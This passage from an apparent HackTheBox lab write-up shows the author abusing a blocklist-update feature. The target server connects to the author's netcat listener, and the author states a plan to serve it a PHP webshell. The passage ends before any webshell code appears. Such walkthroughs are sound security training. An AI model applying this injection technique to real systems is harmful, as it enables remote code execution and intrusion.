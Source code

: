 ![image-20200820162029391](https://0xdfimages.gitlab.io/img/image-20200820162029391.png)

First I’ll hit Save, and it shows up in the list of blocklists:

[![image-20200820162352490](https://0xdfimages.gitlab.io/img/image-20200820162352490.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20200820162352490.png)

Then I’ll hit Save and Update, and it redirects to a new page, which hangs
waiting on a connection at my `nc`. I’ll return it a 200 OK, along with some
arbitrary text, and then Ctrl-C to exit:

    
    
    root@kali# nc -lnvp 80
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::80
    Ncat: Listening on 0.0.0.0:80
    Ncat: Connection from 10.10.10.200.
    Ncat: Connection from 10.10.10.200:39718.
    GET / HTTP/1.1
    Host: 10.10.14.24
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.102 Safari/537.36
    Accept: */*
    
    HTTP/1.1 200 OK
    
    0xdf was here!
    
    ^C
    

I’ll immediately restart the same `nc` listener.

Now the page loads, claiming to have updated the blocklists:

[![image-20200820162609611](https://0xdfimages.gitlab.io/img/image-20200820162609611.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20200820162609611.png)

Interestingly, it reports that the retrieval from my new blocklist was
successful (and all the others fail, which makes sense, as they are on the
internet which isn’t routable from the HTB machines).

I’ll click the big blue Update button at the top again, and I get another
connection at `nc`. This time the server sent `.domains`. I’ll respond with a
PHP webshell:

    
    
    root@kali# nc -lnvp 80
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::80
    Ncat: Listening on 0.0.0.0:80
    Ncat: Connection from 10.10.10.200.
    Ncat: Connection from 10.10.10.200:40094.
    POST / HTTP/1.1
    Host: 10.10.14.24
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.102 Safari/537.36
    Accept: */*
    Content-Length: 8
    Content-Type: application/x-www-form-urlencoded
    